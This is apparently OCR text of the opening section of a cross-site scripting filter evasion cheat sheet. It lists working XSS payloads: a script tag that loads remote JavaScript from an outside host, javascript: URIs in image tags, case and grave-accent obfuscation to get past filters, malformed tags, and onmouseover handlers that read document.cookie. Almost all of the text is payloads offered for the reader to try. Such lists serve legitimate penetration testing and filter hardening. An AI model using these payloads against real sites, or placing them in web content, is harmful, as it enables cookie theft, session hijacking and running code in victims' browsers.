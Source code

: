 
	No Filter Evasion

	This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):
		1
		<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>


		Image XSS using the JavaScript directive

		Image XSS using the JavaScript directive (IE7.0 doesn’t support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:
				1
				<IMG SRC="javascript:alert('XSS');">


				No quotes and no semicolon
				1
				<IMG SRC=javascript:alert('XSS')>


				Case insensitive XSS attack vector
				1
				<IMG SRC=JaVaScRiPt:alert('XSS')>


				HTML entities

				The semicolons are required for this to work:
				1
				<IMG SRC=javascript:alert("XSS")>


		Grave accent obfuscation

		If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string – this is also useful because lots of cross site scripting filters don’t know about grave accents:
		1
		<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>


		Malformed A tags

		Skip the HREF attribute and get to the meat of the XXS… Submitted by David Cross ~ Verified on Chrome

		<a onmouseover=”alert(document.cookie)”>xxs link</a>

		or Chrome loves to replace missing quotes for you… if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

		<a onmouseover=alert(document.cookie)>xxs link</a>
		Malformed IMG tags

		Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tag:
		1
		<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
